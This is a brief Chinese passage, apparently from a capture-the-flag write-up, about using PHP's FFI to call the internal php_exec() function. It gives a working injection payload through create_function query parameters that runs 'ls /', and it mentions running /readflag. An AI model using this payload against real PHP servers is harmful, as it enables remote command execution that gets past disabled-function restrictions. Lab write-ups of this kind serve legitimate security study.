 ![image-20231022221144424](assets/image-20231022221144424.png)

### 利用FFI调用PHP源码中的函数

 其次，我们还有一种思路，即FFI中可以直接调用php源码中的函数，比如这个php_exec()函数就是php源码中的一个函数，当他参数type为3时对应着调用的是passthru()函数，其执行命令可以直接将结果原始输出，payload如下：

```php
/?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("int php_exec(int type, char *cmd);");$ffi->php_exec(3,"ls /");/*
```

执行/readflag，但是不知道为啥拿到的flag缺了五个字，问了rabbit师傅，师傅给了我这个

![image-20231022221246791](assets/image-20231022221246791.png)
